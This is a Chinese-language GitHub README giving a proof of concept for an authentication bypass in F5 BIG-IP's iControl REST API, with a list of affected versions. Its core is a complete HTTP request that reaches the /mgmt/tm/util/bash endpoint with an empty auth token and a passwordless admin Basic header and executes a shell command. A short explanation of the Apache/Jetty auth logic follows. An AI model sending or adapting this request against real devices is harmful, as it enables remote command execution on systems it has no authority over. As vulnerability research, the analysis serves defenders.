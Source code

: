 # README

## 影响范围

```java
16.0.0-16.0.1
15.1.0-15.1.2
14.1.0-14.1.3.1
13.1.0-13.1.3.5
12.1.0-12.1.5.2
```

## POC

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.142.145
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Basic YWRtaW46
X-F5-Auth-Token:
Content-Length: 43

{"command":"run","utilCmdArgs":"-c whoami"}
```



## 简单的分析

因为官网没有给具体的源码，需要在镜像中把源码按照参考链接里的文章中的一些思路从虚拟机中弄出来(我用的是scp命令)。

然后这个f5的代码分析起来也有点麻烦，所以直接列一下简单的思路了。

并且实现攻击有2种方式，我只记录绕过认证这种方式。

httpd.conf中的配置说明转发给810端口的Jetty服务的时候apache httpd会进行一次认证，具体认证的代码需要逆向，逻辑就是看请求头是否有`X-F5-Auth-Token`，有的话则交给Jetty处理。

而Jetty在`X-F5-Auth-Token`为空时只会判断`userReference` 是否为空，以及 `userReference` 是否为 `admin的userReference` 。

而这部分处理只需要让`Authorization: Basic YWRtaW46`的username 为admin即可。

这样就可以实现认证的绕过。

## 参考链接

https://nosec.org/home/detail/4722.html